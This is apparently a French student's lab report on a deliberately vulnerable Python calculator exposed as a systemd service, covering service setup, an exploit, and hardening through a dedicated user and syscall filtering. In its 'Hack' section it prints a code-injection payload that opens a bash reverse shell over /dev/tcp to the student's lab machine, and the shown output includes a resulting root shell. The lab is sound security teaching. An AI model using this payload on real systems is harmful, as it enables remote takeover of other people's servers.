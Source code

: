 # Part IV : My shitty app

**[une application Python (toute pourrie) codée avec mes mains](./calc.py) :**

- elle écoute sur un port TCP
- un client peut se connecter (genre avec `nc`)
- le client peut soumettre une opération arithmétique
- l'application calcule le résultat et l'envoie au client
- l'application se termine

## 1. Création de service

🌞 **Créer un service `calculatrice.service`**

```ini
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always

[Install]
WantedBy=multi-user.target
```

🌞 **Indiquer à systemd que vous avez modifié les services**

```bash
# on indique à systemd de relire les fichiers de définition de service
sudo systemctl daemon-reload
```

🌞 **Vérifier que ce nouveau service est bien reconnu***

- exécutez un simple `systemctl status calculatrice`
```ps
[dums@vbox ~]$ systemctl status calculatrice
● calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; enabled; preset: disabled)
     Active: active (running) since Wed 2025-02-19 22:30:50 CET; 1min 23s ago
   Main PID: 1359 (python3)
      Tasks: 1 (limit: 11101)
     Memory: 3.3M
        CPU: 44ms
     CGroup: /system.slice/calculatrice.service
             └─1359 /usr/bin/python3 /opt/calc.py

Feb 19 22:30:50 vbox systemd[1]: Started Super serveur calculatrice.
```

🌞 **Vous devez pouvoir utiliser l'application normalement :**

- on peut se connecter depuis notre PC
```ps
PS C:\Users\cleme> ncat 10.1.1.11 13337
hello
Hello3+3
6
```
- l'affichage de l'application est disponible dans les logs : 
```ps
journalctl -xe -u calculatrice
Feb 19 22:30:50 vbox systemd[1]: Started Super serveur calculatrice.
   Subject: A start job for unit calculatrice.service has finished successfully
   Defined-By: systemd
   Support: https://wiki.rockylinux.org/rocky/support  
   A start job for unit calculatrice.service has finished successfully.
  
   The job identifier is 907. 
```

## 3. Hack

🌞 **Hack l'application**




J'ai utilisé un reverse shell vers le port 4444 de ma machine perso.
Voila ce que j'écris dans l'application : 
```ps
PS C:\Users\cleme> ncat 10.1.1.11 13337
hello
Hello__import__('os').system('bash -c "bash -i >& /dev/tcp/10.1.1.0/4444 0>&1"')
```
Dans mon reverse shell : 
```ps
PS C:\Users\cleme> ncat -lvnp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.1.1.11:44150.
bash: cannot set terminal process group (1496): Inappropriate ioctl for device
bash: no job control in this shell
[root@vbox /]# whoami
whoami
root
[root@vbox /]# shutdown now
shutdown now
[root@vbox /]#
PS C:\Users\cleme>
```

## 4. Harden

### A. Utilisateurs

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```ps 
[dums@vbox ~]$ ps aux | grep calc.py
root         680  0.0  0.4  10892  8576 ?        Ss   23:30   0:00 /usr/bin/python3 /opt/calc.py
```
```ps
[dums@vbox ~]$ ps aux | grep calculatrice
dums        1302  0.0  0.1   6408  2304 pts/0    S+   23:36   0:00 grep --color=auto calculatrice
```

🌞 **Créer l'utilisateur `calculatrice`**

```ps
sudo useradd -r -s /sbin/nologin -M calculatrice
```

🌞 **Adaptez les permissions**

```ps
sudo chown calculatrice:calculatrice /opt/calc.py
```
```ps
sudo chmod 700 /opt/calc.py
```
🌞 **Modifier le `.service`**

- On ajoute la clause `User=calculatrice`

🌞 **Prouvez que le service s'exécute désormais en tant que `calculatrice`**

```ps
[dums@vbox ~]$ ps aux | grep calc.py
calcula+    1353  0.7  0.4  10828  8192 ?        Ss   23:43   0:00 /usr/bin/python3 /opt/calc.py
dums        1355  0.0  0.1   6412  2304 pts/0    S+   23:43   0:00 grep --color=auto calc.py
```

### B. Syscalls

Bon bah ouais on revient au thème du TP, vous le voyez venir :D

🌞 **Tracez l'exécution de l'application : normal**

- effectuez un tracing avec `strace` ou `sysdig`
- donnez dans le compte-rendu la liste des syscalls effectués par l'application `calc.py` pendant son fonctionnement normal

sortie sysdig --> [calculatrice.scap](./calculatrice.scap)

🌞 **Tracez l'exécution de l'application : hack**

- vous voyez un ou plusieurs syscalls en plus ? Si oui, lesquels ?

```ps
switch
```



🌞 **Adaptez le `.service`**

- ajoutez un filtrage des *syscalls* dans le fichier `calculatrice.service`
- vérifiez que l'exploitation est devenue plus compliquée

```ps
[dums@vbox ~]$ sudo cat /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
User=calculatrice
Restart=always

SystemCallFilter=~fork clone vfork

[Install]
WantedBy=multi-user.target
```